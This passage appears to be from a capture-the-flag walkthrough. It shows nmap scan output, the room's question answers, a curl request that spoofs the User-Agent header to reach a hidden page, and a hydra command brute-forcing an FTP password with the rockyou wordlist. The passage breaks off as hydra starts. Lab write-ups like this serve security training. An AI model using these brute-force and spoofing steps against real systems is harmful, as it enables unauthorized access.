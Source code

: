 ```bash
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5hdrxDB30IcSGobuBxhwKJ8g+DJcUO5xzoaZP/vJBtWoSf4nWDqaqlJdEF0Vu7Sw7i0R3aHRKGc5mKmjRuhSEtuKKjKdZqzL3xNTI2cItmyKsMgZz+lbMnc3DouIHqlh748nQknD/28+RXREsNtQZtd0VmBZcY1TD0U4XJXPiwleilnsbwWA7pg26cAv9B7CcaqvMgldjSTdkT1QNgrx51g4IFxtMIFGeJDh2oJkfPcX6KDcYo6c9W1l+SCSivAQsJ1dXgA2bLFkG/wPaJaBgCzb8IOZOfxQjnIqBdUNFQPlwshX/nq26BMhNGKMENXJUpvUTshoJ/rFGgZ9Nj31r
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHdSVnnzMMv6VBLmga/Wpb94C9M2nOXyu36FCwzHtLB4S4lGXa2LzB5jqnAQa0ihI6IDtQUimgvooZCLNl6ob68=
|   256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOL3wRjJ5kmGs/hI4aXEwEndh81Pm/fvo8EvcpDHR5nt
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 21:08
Completed NSE at 21:08, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 21:08
Completed NSE at 21:08, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 21:08
Completed NSE at 21:08, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.67 seconds
```
**Answer**: `3`
### How you redirect yourself to a secret page?
* `http://<MACHINE_IP>/`:
> Dear agents,
>
> Use your own codename as user-agent to access the site.
>
> From,
> Agent R
* `curl "http://<MACHINE_IP>/" -H "User-Agent: C" -L`:
> Attention chris,
>
> Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!
>
> From,
> Agent R

**Answer**: `User-Agent`
### What is the agent name?
**Answer**: `Chris`
## Hash cracking and brute-force
### FTP password
```bash
$ hydra -l chris -P $(pwd)/rockyou.txt ftp://<MACHINE_IP>
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-05-08 21:15:56
```